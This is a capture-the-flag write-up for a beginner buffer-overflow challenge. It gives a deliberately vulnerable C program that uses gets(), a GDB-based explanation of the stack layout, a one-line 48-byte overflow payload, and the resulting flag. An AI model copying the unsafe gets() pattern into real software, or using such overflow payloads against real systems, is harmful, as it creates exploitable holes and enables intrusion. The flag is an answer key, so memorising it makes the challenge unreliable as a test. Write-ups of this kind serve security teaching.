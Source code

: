 # pwn intended 0x1

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow

## Sources

- [pwn-intended-0x1](./pwn-intended-0x1): Binary
- [pwn-intended-0x1.c](./pwn-intended-0x1.c)

```c
#include <stdio.h>

int main() {
    int floor = 0;
    char coffee[30];

    puts("Please pour me some coffee:");
    gets(coffee);

    puts("\nThanks!\n");

    if (floor != 0) {
        puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
        system("cat flag.txt");
    }
}
```

```
I really want to have some coffee!
```

## Exploit

The program has an integer variable `floor`, the value of which needs to be changed. The `floor` variable is of `int` type, of size `4 bytes`. The `coffee` array is of character type, each character is `1 byte`, hence the array takes `30 bytes`. So the main function will be alloted `48 bytes` of memory, since that is the nearest multiple of 16 after `30 + 4`.
<br />

The 4 bytes of the function's stack adjacent to the `saved rbp` is going to store `floor`. We can confirm that using GDB. In `main <+56>`, there is a comparison between `[rbp-0x4]` and `0x0`.
<br />

<img src="./static/img1.png" width="600" />

Now, we can simply fill up the entire stack with some random bytes (`!= 0`), so that the value of the `floor` variable is changed, leading to a call to the `system()` function.

```bash
$ python2 -c "print 'a'*48" | ./pwn-intended-0x1 
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}%
```

The flag is:

```
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```
